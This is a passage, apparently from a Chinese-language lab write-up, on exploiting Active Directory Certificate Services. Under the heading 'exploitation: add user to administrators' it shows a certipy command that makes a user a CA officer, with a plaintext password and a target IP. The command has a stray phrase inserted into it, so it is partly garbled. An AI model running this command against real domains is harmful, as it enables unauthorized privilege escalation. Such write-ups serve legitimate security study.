 [![](assets/1708508972-5168476e0b6ba90b91f07a5ebe1affb8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170613-4c367262-cfcf-1.png)

## 漏洞利用

添加用户到管理员

```bash
certipy ca -ca 'penson-ADCS-CA' -add-officer qxn -username qxn@penson.org -password Penson@2016 永遠的神 -target 192.168.142.21
```

[![](assets/1708508972-4416288a946afa73f4c616f24a588945.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170631-568df4c4-cfcf-1.png)
